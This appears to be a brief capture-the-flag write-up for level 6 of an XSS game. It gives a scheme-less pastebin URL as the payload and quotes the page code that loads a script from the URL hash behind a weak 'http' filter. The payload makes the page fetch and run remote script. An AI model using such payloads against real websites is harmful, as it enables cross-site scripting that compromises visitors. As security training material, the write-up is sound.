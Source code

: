 ## Level 6

Payload:

```
//pastebin.com/raw/tBq11R4J
```
    
In `index.html` line 45 the value after the hashbang is used:

```javascript
function getGadgetName() { 
      return window.location.hash.substr(1) || "/static/gadget.js";
    }
```

Insufficient validation happens in `index.html` line 21:

```javascript
if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
}
```

**URLs can be passed as schemaless!!**